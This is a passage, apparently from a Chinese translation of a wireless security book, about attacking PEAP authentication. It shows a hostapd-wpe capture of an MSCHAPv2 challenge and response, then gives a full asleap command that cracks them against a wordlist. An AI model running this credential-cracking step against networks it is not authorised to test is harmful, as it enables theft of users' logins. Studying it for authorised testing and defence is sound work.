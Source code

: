 1.  在`hostapd-wpe`终端窗口日志中，我们可以观察到这个认证尝试，包括 MSCHAPv2 协议的挑战和响应：![攻击 PEAP](img/B04527_06_19.jpg)

1.  这就是我们启动使用`asleap`进行离线字典攻击所需要的一切，通过使用`-C`和`-R`选项将挑战和响应传递给程序：

```
asleap -C 1d:cc:5d:7c:ba:7f:c3:dc -R f0:4d:32:1a:8e:c0:44:1e:e1:fa:07:e0:c0:6c:a3:23:8d:3b:96:52:55 :b2:5d:73 -W wordlist.txt

```

![攻击 PEAP](img/B04527_06_20.jpg)
